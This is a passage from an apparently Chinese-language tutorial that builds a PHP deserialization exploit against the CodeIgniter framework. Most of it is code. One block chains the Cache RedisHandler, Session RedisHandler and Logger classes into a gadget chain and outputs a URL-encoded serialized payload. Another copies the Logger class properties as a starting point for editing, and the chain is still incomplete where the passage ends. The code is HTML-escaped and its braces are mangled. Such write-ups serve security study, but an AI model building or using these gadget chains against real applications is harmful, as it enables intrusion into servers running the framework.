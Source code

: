 然后开始构造EXP：

```
&lt;?php

namespace CodeIgniter\Session\Handlers`{`

    class RedisHandler`{`
        protected $redis;
        protected $logger;

        public function __construct($logger,$redis)
        `{`
            $this-&gt;logger=$logger;
            $this-&gt;redis = $redis;
        `}`
    `}`
`}`

namespace CodeIgniter\Cache\Handlers`{`
    class RedisHandler`{`
        protected $redis;
        public function __construct($redis)
        `{`
            $this-&gt;redis=$redis;
        `}`
    `}`
`}`

namespace CodeIgniter\Log`{`
    class Logger`{`
    `}`
`}`

namespace `{`
    $c=new CodeIgniter\Log\Logger();
    $b=new CodeIgniter\Session\Handlers\RedisHandler($c,new redis());
    $a=new CodeIgniter\Cache\Handlers\RedisHandler($b);
    echo urlencode(serialize($a));
`}`
```

首先第一步，构造前几个类。前几个类还是比较容易构造的。

来仔细研究一下Logger类的参数该如何构造。

**为了防止出错**我们先把所有的参数复制过来，然后再修改。

```
protected $logLevels = [
            'emergency' =&gt; 1,
            'alert'     =&gt; 2,
            'critical'  =&gt; 3,
            'error'     =&gt; 4,
            'warning'   =&gt; 5,
            'notice'    =&gt; 6,
            'info'      =&gt; 7,
            'debug'     =&gt; 8,
        ];
        protected $loggableLevels = [];
        protected $filePermissions = 0644;
        protected $dateFormat = 'Y-m-d H:i:s';
        protected $fileExt;
        protected $handlers = [];
        protected $handlerConfig = [];
        public $logCache;
```
